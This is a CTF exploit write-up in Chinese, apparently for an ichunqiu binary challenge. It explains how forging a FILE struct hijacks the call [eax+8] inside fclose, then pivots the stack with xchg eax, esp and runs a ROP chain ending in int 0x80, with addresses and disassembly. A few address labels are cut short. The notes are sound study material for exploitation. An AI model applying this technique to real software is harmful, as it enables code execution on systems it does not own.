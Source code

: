 fake ichunqiu

x: 080EF9E0
ptr_to_File_struct:080EFA00

buffersize = 32


在 fclose里面会 存在 call reg 指令。

伪造FILE结构体，保证第一个字节 (与0x2000 为0)，第一个dword可以为 0xffffefff

然后 会执行到 call [eax+0x8]；
向上数据流分析，eax = [ebx + 0x94]
			 ebx = 是FILE结构体的首地址。

OK，我们只需要让FILE结构体为

0xffffefff + 中间填充0x89字节 + ROP首地址。





# flose 执行轨迹
```
.text:0804F8E0 fclose          proc near
.text:0804F8E0 ; __unwind { // __gcc_personality_v0
.text:0804F8E0                 push    ebp ; Alternative name is '__new_fclose'
.text:0804F8E1                 mov     ebp, esp
.text:0804F8E3                 push    edi
.text:0804F8E4                 push    esi
.text:0804F8E5                 push    ebx
.text:0804F8E6                 sub     esp, 0Ch
.text:0804F8E9                 mov     ebx, [ebp+8]
.text:0804F8EC                 mov     eax, [ebx]
.text:0804F8EE                 test    ah, 20h
.text:0804F8F1                 jnz     loc_804F9C0

.text:0804F8F7                 mov     edx, eax ; step 1
.text:0804F8F9                 and     edx, 8000h
.text:0804F8FF                 jz      loc_804F

.text:0804F905
.text:0804F905 loc_804F905:            ; step 2
.text:0804F905                 shl     eax, 1Ah
.text:0804F908                 sar     eax, 1Fh
.text:0804F90B                 test    edx, edx
.text:0804F90D                 mov     esi, eax
.text:0804F90F                 jz      loc_8

.text:0804F915 loc_804F915:            ; step 3
.text:0804F915                 mov     eax, [ebx+94h]
.text:0804F91B                 sub     esp, 8
.text:0804F91E                 push    0
.text:0804F920                 push    ebx
.text:0804F921                 call    dword ptr [eax+8]
.text:0804F924                 mov     edx, [ebx+68h]
.text:0804F927                 add     esp, 10h
.text:0804F92A                 test    edx, edx
.text:0804F92C                 jle     loc_804FA70
```

# step 2
在地址0x0804F921处劫持控制流，
利用gadget p32(0x08048f66)#  xchg eax, esp ; ret	1  pivot?? exchange 更改栈地址

此处需要 将eax指向栈顶 esp <= eax <=  0x080efaa0

交换之后 esp = 0x080efaa0

ret 之后
esp += 4
esp = 0x080efaa4

# step 3
利用 add esp，"num" gadget 升栈

经过搜索，发现 `0x0804e9aa: add esp, 0xc; ret`
经过升栈之后 `esp = 0x080efab0`

# step 4
使用shellcode

```
xor eax, eax; ret;  // eax = 0
pop ecx ; pop ebx ; ret; 
pop esi ; pop ebx ; pop edx ; ret
pop eax; jnp 0x5b0e5e5e; pop esi; ret;
neg eax; ret
int 0x80
```
